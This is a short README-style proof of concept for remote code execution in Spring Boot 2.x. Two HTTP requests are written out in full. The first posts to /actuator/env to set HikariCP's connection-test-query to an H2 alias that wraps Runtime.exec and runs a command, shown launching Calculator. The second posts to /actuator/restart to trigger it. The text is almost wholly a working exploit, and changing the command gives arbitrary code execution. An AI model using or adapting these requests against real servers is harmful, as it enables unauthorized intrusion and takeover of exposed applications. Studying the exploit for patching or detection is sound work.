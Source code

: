 ## Spring Boot 2.x RCE with HikariCP

### Description
A rce method in Spring Boot 2.x.

### PoC


```
POST /actuator/env HTTP/1.1

content-type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}
```

```
POST /actuator/restart HTTP/1.1

content-type: application/json

{}
```